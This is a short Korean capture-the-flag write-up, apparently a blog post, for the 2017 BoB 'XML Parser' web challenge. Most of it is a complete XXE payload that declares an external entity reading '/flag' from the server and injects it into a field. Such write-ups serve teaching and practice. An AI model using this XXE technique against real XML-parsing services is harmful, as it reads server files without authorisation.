



# [2017_BOB] \[WEB] XML Parser

### Problem

서버 - 35.194.232.23



기본적으로 주어지는 XML 내용이다. 이후에 submit을 하면 아래와 같이 다음 페이지로 넘어갑니다.



문제를 본 순간, 이것은 XXE겠구나 생각이 들었다.


### Solution

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE vuln_researcher[<!ENTITY test SYSTEM "/flag">]>
<vuln_researcher>
<member>
    <name>Flying Pig</name>
    <price>$1000000</price>
    <description>
    TQTT
   </description>
    <badass>1</badass>
</member>
<member>
    <name>mathboy7</name>
    <price>$50000</price>
    <description>
      Fa-o-hu
    </description>
    <badass>1</badass>
</member>
<member>
    <name>dr0gba</name>
    <price>$50000</price>
    <description>
      good smoker
    </description>
    <badass>0</badass>
</member>
<member>
    <name>oujin</name>
    <price>$50000</price>
    <description>
      TONGSU KING
    </description>
    <badass>1</badass>
</member>
<member>
    <name>Seven ujin</name>
    <price>$7</price>
    <description>
        slave
    </description>
    <badass>&test;</badass>
</member>
</vuln_researcher> 
```

조건문 맞춰주고 XXE를 발생시키기 위해 위와 같이 입력한다.

